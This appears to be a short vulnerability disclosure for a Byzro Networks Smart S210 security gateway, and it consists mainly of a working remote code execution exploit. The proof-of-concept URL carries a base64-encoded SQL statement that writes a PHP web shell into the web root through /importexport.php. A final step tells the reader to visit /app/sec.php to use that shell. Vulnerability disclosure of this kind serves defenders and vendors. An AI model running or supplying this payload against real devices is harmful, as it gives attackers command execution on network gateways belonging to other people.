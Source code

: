 There is an RCE vulnerability in the intelligent management platform of Byzro Networks Smart S210 multi-service security gateway.

version:S210

1. Vulnerability location
/importexport.php

2. The login interface is as shown in the figure.
![image](https://github.com/Stitch3612/cve/assets/134414721/6367a9b1-b83b-4111-b9fc-66cec4acfe06)

3. Construct POC and execute download
```https://ip:port/importexport.php?sql=c2VsZWN0IDB4M2MzZjcwNjg3MDIwNjU2MzY4NmYyMDczNzk3Mzc0NjU2ZDI4MjQ1ZjUwNGY1MzU0NWIyMjYzNmQ2NDIyNWQyOTNiM2YzZSBpbnRvIG91dGZpbGUgJy91c3IvaGRkb2NzL25zZy9hcHAvc2VjLnBocCc=&type=exportexcelbysql```
![image](https://github.com/Stitch3612/cve/assets/134414721/9cab7742-8cc5-414c-b4a0-a1b2e89c7f66)

5. Visit /app/sec.php to get the webshell.

![image](https://github.com/Stitch3612/cve/assets/134414721/ceb3d308-aa92-406a-95f9-0779cfc05ac6)
